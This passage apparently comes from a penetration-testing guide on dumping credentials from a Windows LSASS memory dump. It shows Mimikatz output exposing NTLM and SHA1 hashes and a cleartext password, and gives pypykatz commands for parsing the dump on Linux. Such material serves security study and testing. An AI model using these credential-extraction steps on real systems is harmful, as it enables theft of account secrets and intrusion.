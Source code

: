 Example output:

```
Authentication Id : 0 ; 515764 (00000000:0007df34)
Session           : Interactive from 1
User Name         : Administrator
Domain            : DESKTOP-H5NBDKV
Logon Server      : DESKTOP-H5NBDKV
Logon Time        : 8/25/2021 1:56:26 PM
SID               : S-1-5-21-3088908308-1677896653-3907355324-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : DESKTOP-H5NBDKV
         * NTLM     : 98d3a787a80d08385cea7fb4aa2a4261
         * SHA1     : f46418f73a14567803cb96b67fd8db1c29e21e3d
        tspkg :
        wdigest :
         * Username : Administrator
         * Domain   : DESKTOP-H5NBDKV
         * Password : (null)
        kerberos :
         * Username : Administrator
         * Domain   : DESKTOP-H5NBDKV
         * Password : Password123!
```

#### Using pypykatz (Linux)

[pypykatz](https://github.com/skelsec/pypykatz) is a Python implementation of Mimikatz that works on Linux systems:

```bash
# Install pypykatz
pip3 install pypykatz

# Parse the dump file
pypykatz lsa minidump lsass.dmp
```

Example output:

```
INFO:root:Parsing file lsass.dmp
FILE: ======== lsass.dmp =======
[...]
== LogonSession ==
authentication_id 515764 (0x7df34)
session_id 1
username Administrator
domainname DESKTOP-H5NBDKV
logon_server DESKTOP-H5NBDKV
logon_time 2021-08-25T13:56:26.932435+00:00
sid S-1-5-21-3088908308-1677896653-3907355324-500
luid 515764
        == MSV ==
                Username: Administrator
                Domain: DESKTOP-H5NBDKV
                LM: NA
                NT: 98d3a787a80d08385cea7fb4aa2a4261
                SHA1: f46418f73a14567803cb96b67fd8db1c29e21e3d
        == WDIGEST [14]==
                username Administrator
                domainname DESKTOP-H5NBDKV
                password None
        == Kerberos ==
                Username: Administrator
```